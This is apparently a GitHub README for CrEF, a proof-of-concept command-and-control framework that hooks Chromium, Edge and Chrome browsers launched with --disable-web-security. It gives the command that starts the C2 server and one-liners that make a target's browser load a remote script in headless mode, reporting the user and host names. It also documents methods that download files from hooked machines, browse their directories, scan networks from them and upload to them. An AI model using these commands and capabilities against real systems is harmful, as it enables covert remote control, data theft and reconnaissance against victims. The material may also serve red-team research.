


<div align="center">
	<h1>CrEF - Chromium Exploitation Framework</h1>
	
</div>

---

> **Author**::      TW-D
>
> **Version**::     1.0.0

---

## DESCRIPTION

Proof of concept of a command and control server enabling hooking of Chromium-based browsers launched with the **--disable-web-security** flag.

## TESTED ON

>
> **Microsoft Windows 10 Professionnel 22H2 and Microsoft Edge 132**
>
> *%USERPROFILE%\AppData\Local\Microsoft\Edge\User Data\Default*
>

>
> **Ubuntu 22.04.5 LTS and Chromium 132/133 (snap)**
>
> *"${HOME}/snap/chromium/common/chromium/Default"*
>

>
> **Ubuntu 24.04.2 LTS and Google Chrome 136 (official build)**
>
> *"${HOME}/.config/google-chrome/Default"*
>

## INSTALLATION

For Debian-based Linux distributions.

```bash
hacker@hacker-computer:~$ sudo apt-get install ruby ruby-dev php8.3-cli
hacker@hacker-computer:~$ sudo gem install tty nokogiri
```

## USAGE

This step is strongly recommended ; it is advised to rename the default folder "./www/**data-U2lsZW5jZSBpcyBnb2xkZW4K**/" by following the steps below.

```bash
hacker@hacker-computer:~/CrEF$ cd ./www/
hacker@hacker-computer:~/CrEF/www$ mv ./data-U2lsZW5jZSBpcyBnb2xkZW4K/ ./data-"$(< /dev/urandom tr -cd 'A-Za-z0-9' | head -c 32)"/
```

The hooked browsers must communicate with a web server; PHP was deliberately chosen for its popularity.

```bash
hacker@hacker-computer:~/CrEF$ php -d memory_limit=2G -d post_max_size=1G -d max_execution_time=300 -d upload_max_filesize=1G -S 0.0.0.0:8000 -t ./www/
```

After renaming the directory "./www/**data-U2lsZW5jZSBpcyBnb2xkZW4K**/" and starting the web server, you will also need to manually update the values in the **./cli.rb** *(line 3)*, **./www/index.php** *(lines 11 and 12)* and **./payloads/targets_list.rb** *(line 3)* files.

>
> Steps to hook a Microsoft Edge browser on Microsoft Windows:
>

```batch
C:\Users\target> ECHO ^<body^>^<script src="http://127.0.0.1:8000/index.js"^>^</script^> > %TMP%\x.html

C:\Users\target> "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --disable-web-security --headless --no-first-run --user-data-dir="%TMP%" "file:///%TMP%\x.html?u=%USERNAME%&c=%COMPUTERNAME%"
```

>
> Steps to hook a Chromium browser on Debian-Based Linux distributions:
>

```bash
target@target-computer:~$ wget --quiet --output-document="-" http://127.0.0.1:8000/ > ./x.html
target@target-computer:~$ # OR
target@target-computer:~$ echo "<body><script src=\"http://127.0.0.1:8000/index.js\"></script>" > ./x.html

target@target-computer:~$ chromium --disable-web-security --headless --no-first-run --user-data-dir="/tmp/${RANDOM}/" "file://${HOME}/x.html?u=${USER}&c=$(hostname)"
```

>
> Steps to hook a Google Chrome browser on Debian-Based Linux distributions:
>

```bash
target@target-computer:~$ wget --quiet --output-document="-" http://127.0.0.1:8000/ > ./x.html
target@target-computer:~$ # OR
target@target-computer:~$ echo "<body><script src=\"http://127.0.0.1:8000/index.js\"></script>" > ./x.html

target@target-computer:~$ google-chrome --disable-web-security --headless --no-first-run --user-data-dir="/tmp/${RANDOM}/" "file://${HOME}/x.html?u=${USER}&c=$(hostname)"
```

> [!NOTE]
> *127.0.0.1* is a sample address used for local testing.

### CLI MODE

To command and control the hooked browsers, a CLI version is available. You can run this command to get started:

```bash
hacker@hacker-computer:~/CrEF$ ruby -W0 ./cli.rb
```

#### SCREENSHOT



### SCRIPTING MODE

For more precise actions, a SCRIPTING version is also available by loading the library **./lib/command_control.rb** and leveraging its methods along with programming.

```bash
hacker@hacker-computer:~/CrEF$ cd ./payloads/
hacker@hacker-computer:~/CrEF/payloads$ ruby -W0 ./targets_list.rb
[{"target_status"=>"🟢",
  "session_id"=>1,
  "remote_address"=>"127.0.0.1",
  "computer_name"=>"target-computer",
  "user_name"=>"target",
  "platform_name"=>"Linux",
  "last_seen"=>"05/13/2025 03:29:17 PM"}]
[...]
```

> [!NOTE]
> The *./targets_list.rb* file is a sample helper file.

#### METHODS

```ruby
# Loads the list of targets by parsing JSON files found in the data directory.
#
# @return [Array<Hash>] Returns an array of hashes representing target sessions with their information (excluding user_agent).
def load_targets

# Loads the data for a specific target session.
#
# @param target_session [Hash] A hash containing session information, including 'remote_address' and 'computer_name'.
# @return [Boolean, Hash] Returns a hash with the target data if the file exists, otherwise false.
def load_target(target_session)

# Loads the HTML tree structure for a specific target session.
#
# @param target_session [Hash] A hash containing session information, including 'remote_address' and 'computer_name'.
# @return [Array<Array>] Returns an array of arrays with details for each row of the HTML table (type, link, size, date).
def load_tree(target_session)

# Sends a command to access a specific URL within the target session.
#
# @param target_session [Hash] The target session hash.
# @param destination_url [String] The URL to access.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def access_url(target_session, destination_url)

# Sends a command to browse a specific directory within the target session.
#
# @param target_session [Hash] The target session hash.
# @param source_directory [String] The directory path to browse.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def browse_directory(target_session, source_directory)

# Sends a command to download a specific file from the target session.
#
# @param target_session [Hash] The target session hash.
# @param source_file [String] The full path to the file to download.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def download_file(target_session, source_file)

# Sends a command to scan a network address from the target session.
#
# @param target_session [Hash] The target session hash.
# @param destination_address [String] The network address to scan.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def scan_address(target_session, destination_address)

# Sends a command to upload a URL to the target session.
#
# @param target_session [Hash] The target session hash.
# @param source_url [String] The URL to upload.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def upload_url(target_session, source_url)
```

## LICENSE

[](./LICENSE-MIT)
[](./LICENSE-APACHE)

Licensed under either of [Apache License Version 2.0](./LICENSE-APACHE) or [The MIT License](./LICENSE-MIT) at your option.

## COPYRIGHT

© 2025, [TW-D](https://github.com/TW-D)
